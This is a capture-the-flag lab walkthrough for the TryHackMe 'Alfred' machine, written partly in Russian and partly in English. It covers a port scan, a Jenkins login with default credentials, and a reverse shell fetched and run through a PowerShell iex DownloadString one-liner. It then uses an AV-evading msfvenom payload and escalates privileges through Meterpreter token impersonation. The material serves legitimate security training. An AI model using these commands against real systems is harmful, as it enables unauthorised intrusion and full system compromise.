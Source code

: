 # TryHackMe-Alfred


## Rustscan

```bash                                                                                                                      
PORT     STATE SERVICE    REASON          VERSION   
80/tcp   open  http       syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods:                                                    
|   Supported Methods: OPTIONS TRACE GET HEAD POST                        
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5      
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  tcpwrapped syn-ack ttl 127  
8080/tcp open  http       syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT        
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1     
| http-robots.txt: 1 disallowed entry                                     
|_/                                                                       
|_http-server-header: Jetty(9.4.z-SNAPSHOT)                               
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows                  
```

## PORT 80 (HTTP)

<img src="https://imgur.com/OzQMPUD.png"/>

Здесь мы не видим ничего интересного, поэтому давайте перейдем к другому http-порту

## PORT 8080 (HTTP)

<img src="https://imgur.com/aXHhYWT.png"/>

Мы видим портал входа в систему jenkins, поэтому давайте попробуем использовать учетные данные по умолчанию

`admin:password`

<img src="https://imgur.com/hrO4m40.png"/>

И это не сработало, давайте попробуем admin:admin

<img src="https://imgur.com/aFModUR.png"/>


Это сработало там, где мы находимся, теперь нам нужно найти, где мы можем выполнять команды, чтобы получить обратную оболочку на целевой машине

Наведите курсор мыши на project, и вы увидите выпадающее меню

 <img src="https://i.imgur.com/15CMp1p.png"/>
 
У Вас будут такие варианты, как "Changes", "Workspace", "Build Now", "Delete Project"," Configure" и "Rename". Выберем `Configure`:

<img src="https://imgur.com/msvm69Y.png"/>

Переключимся на `Build Environment Tab`:

<img src="https://i.imgur.com/yUPIbcb.png"/>

Здесь Вы можете видеть, что есть команда, написанная как  whoami, так что давайте нажмем "Применить" и сохранимся:

<img src="https://i.imgur.com/eXEBFF6.png"/>

Нажмем на `#2`, затем на `Console Output`

<img src="https://i.imgur.com/H0Bx0xH.png"/>

<img src="https://imgur.com/0S5GrCG.png"/>

И Вы можете видеть, какую бы команду мы там ни вводили, она покажет результат, так что теперь все, что мы можем сделать, это разместить сценарий обратной оболочки powershell, загрузить его с помощью powershell и выполнить функцию в сценарии, чтобы получить оболочку:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

Запустите свой http-сервер python3

<img src="https://imgur.com/Ffh7FPk.png"/>

И наша команда будет выглядеть так: запустите прослушиватель netcat:

<img src="https://imgur.com/L7kRLea.png"/>

<img src="https://imgur.com/GGcjVVU.png"/>

Теперь нажмите `Build Now`, и это задание будет запущено, и Вы получите оболочку:

<img src="https://imgur.com/2LThZZr.png"/>

Сгенерируйте полезную нагрузку msfvenom с кодировщиками для обхода AV.
Разместите ее на своем локальном компьютере и загрузите, повторив тот же метод:


<img src="https://imgur.com/2px77nI.png"/>

Set up your metasploit listener

<img src="https://imgur.com/IKY1jka.png"/>

<img src="https://imgur.com/G6SR5wL.png"/>

<img src="https://i.imgur.com/uhZl5vx.png"/>

Execute the payload and you'll see a meterpreter session will be popped

<img src="https://i.imgur.com/YF8AsSf.png"/>

Running the command `getprivs` we can see what privileges we have on the machine

<img src="https://i.imgur.com/zaqoz9K.png"/>

Here we can escalate our privleges through `SeImpersonatePrivilege`

Run the command `load icognito` through this module we can impersonate tokens

<img src="https://imgur.com/IbKIzYL.png"/>

<img src="https://imgur.com/macZDV5.png"/>

<img src="https://i.imgur.com/enPc6EW.png"/>

<img src="https://imgur.com/iE8Xsw7.png"/>

<img src="https://imgur.com/Ivy4Yaa.png"/>

Now even though we have SYSTEM on the machine but still we won't be able to access system files as it uses the primary token of the process and not the impersonated token so we need to migrate to a process running as SYSTEM which is `services.exe`

<img src="https://i.imgur.com/ltPg2LG.png"/>

<img src="https://imgur.com/3P3tLr5.png"/>

<img src="https://imgur.com/h1cTVks.png"/>
